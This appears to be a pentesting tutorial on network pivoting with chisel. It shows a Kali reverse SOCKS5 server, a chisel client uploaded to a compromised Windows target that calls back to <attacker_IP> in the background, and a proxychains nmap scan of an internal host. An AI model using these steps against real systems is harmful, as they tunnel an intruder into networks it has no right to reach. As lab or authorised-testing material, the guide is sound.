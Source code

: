 download chisel on https://github.com/jpillora/chisel/releases 

download **[chisel_1.7.7_linux_amd64.gz](https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz) for kali and [chisel_1.7.7_windows_amd64.gz](https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz) for target windows.**

prepare chisel server on kali : 

fix /etc/proxychains4.conf by comment on sock4 and push sock5 (1080 default port)

```bash
nano /etc/proxychains4.conf
```

![image](https://user-images.githubusercontent.com/55615071/195266565-7de8038a-0d45-4bc4-bf74-b1fca7f69165.png)



```bash
chmod +x chisel
```

open server on kali : 

```bash
./chisel server -p <Local_Attacker_Port> --socks5 --reverse
```

![image](https://user-images.githubusercontent.com/55615071/189031440-23102649-c833-4ace-a1a0-10f33dc3388e.png)


upload chisel.exe to windows target and run following command.

```bash
chisel.exe client <attacker_IP>:<Local_listening_port> R:socks &

chisel.exe client <attacker_IP>:<Local_listening_port> R:[port_file_proxychain]:socks &
```

![image](https://user-images.githubusercontent.com/55615071/189031515-c4c54896-bd04-40c0-bc7b-43dc82c63afb.png)


![image](https://user-images.githubusercontent.com/55615071/189064300-dc57330d-61dc-476b-b9cf-72afb1540b39.png)


Remind : & on command is meaning run chisel on background

After run chisel client, check state connect on chisel server. it should be like this

![image](https://user-images.githubusercontent.com/55615071/189031556-d2728e7c-db24-4c89-8c04-bbe52aa36687.png)

try testing by use proxychains before command

![image](https://user-images.githubusercontent.com/55615071/189031576-396b1d6c-7d26-45c6-9793-1d876845a043.png)

proxychains nmap -sT -Pn -sV -sC -p1-6000 192.168.239.129

![image](https://user-images.githubusercontent.com/55615071/189031936-dd2bbdcb-284d-4d58-abd8-e2cb0d3ddb9d.png)

![image](https://user-images.githubusercontent.com/55615071/189064326-048fdaef-8772-4380-8714-d35c40d8442e.png)
